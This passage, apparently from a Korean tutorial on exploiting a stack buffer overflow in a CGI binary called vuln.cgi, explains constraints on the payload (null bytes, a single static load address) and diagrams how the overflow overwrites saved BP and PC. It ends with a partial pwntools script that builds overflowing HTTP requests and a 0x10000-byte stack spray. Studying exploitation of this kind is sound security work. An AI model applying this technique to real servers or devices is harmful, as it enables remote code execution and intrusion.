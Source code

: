 `$pc` 레지스터가 변조 된 것을 알 수 있습니다.



### 공격 제약

일반적인 BOF 공격은 Return Oriented Programming(ROP)[^6]을 주로 사용합니다.

하지만 이번 취약점을 공격하기에는 몇가지 제약이 있습니다.

- 문자열 복사를 통해 발생하는 Buffer overflow이기 때문에, ROP Payload에 Null byte가 포함 될 경우 성공적으로 공격을 수행할 수 없습니다.
- 공격에 사용할 수 있는 정적인 주소가 프로그램(vuln.cgi)이 로드 된 지점밖에 없습니다.
- 프로그램이 로드 된 주소값의 상위 1바이트는 Null-byte입니다.

이런 상황에서 구상할 수 있는 Payload는 다음과 같습니다.

```
<= 0x00000000                       0xffffffff =>
+-----+-(out)---------------+-(BP)-+-(PC)-+-----+
| ... | ............ 'a'*63 | BASE | JUMP | ... |
+-----+---------------------+------+------+-----+
                      === Overflow ==>
```

- `JUMP`에는 상위 1바이트가 Null-byte인 주소값을 삽입할 수 있습니다.
- `BASE`에는 Null-byte가 존재하지 않는 어떤 값을 삽입할 수 있습니다.

이런 모든 조건을 종합 해 보았을 때, 우리는 다음과 같이 공격을 구상해야합니다.

- `PC`를 단 한번 변조하여 공격자가 원하는 코드의 흐름을 획득 해야합니다.
  - 연속적인 함수의 호출 또는 인자의 구성을 위해 Null-byte를 삽입할 수 있는 영역이 필요합니다.
  - 연속적인 함수의 호출 또는 인자의 구성을 위해 `SP`를 변조할 수 있어야 합니다.



### Stack spray

`QUERY_STRING` 환경변수는 스택에 저장되어 있습니다. 이를 활용하면 다음과 같이 Stack spray를 시도 할 수 있습니다.

```python
#!/usr/bin/python3

from pwn import *

e = ELF("./vuln")

def form_packet(ip, param):
    packet  = ""
    packet += "GET http://{}/vuln.cgi?{} HTTP/1.1\r\n".format(ip, param)
    packet += "Host: {}\r\n".format(ip)
    packet += "Connection: keep-alive\r\n"
    packet += "Content-Length: 0\r\n"
    packet += "User-Agent: Mozilla/5.0\r\n"
    packet += "Accept: */*\r\n"
    packet += "Origin: http://{}\r\n".format(ip)
    packet += "Referer: http://{}/home.cgi\r\n".format(ip)
    packet += "Accept-Encoding: gzip, deflate\r\n"
    packet += "Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7\r\n"
    packet += "\r\n"
    return packet.encode()

def form_param(payload, spray):
    return "&".join(["ifconfig=y", "comment="+payload, "s="+spray])

def exploit(ip):
    payload = 'a'*63 + "STCK" + "JUMP"
    spray   = 'b'*0x10000
    param   = form_param(payload, spray)
    packet  = form_packet(ip, param)

```

[^`1]: [Wikipedia: 공용 게이트웨이 인터페이스](https://ko.wikipedia.org/wiki/공용_게이트웨이_인터페이스)
[^2]: https://www.lighttpd.net/
[^3]: [CGI Envrionment Variables](http://www.cgi101.com/book/ch3/text.html)
[^4]: [strcat](https://man7.org/linux/man-pages/man3/strcat.3.html)
[^5]: [Buffer overflow](https://ko.wikipedia.org/wiki/%EB%B2%84%ED%8D%BC_%EC%98%A4%EB%B2%84%ED%94%8C%EB%A1%9C)
[^6]: [Return oriented programming]([https://ko.wikipedia.org/wiki/%EB%B0%98%ED%99%98_%EC%A7%80%ED%96%A5%ED%98%95_%ED%94%84%EB%A1%9C%EA%B7%B8%EB%9E%98%EB%B0%8D](https://ko.wikipedia.org/wiki/반환_지향형_프로그래밍))
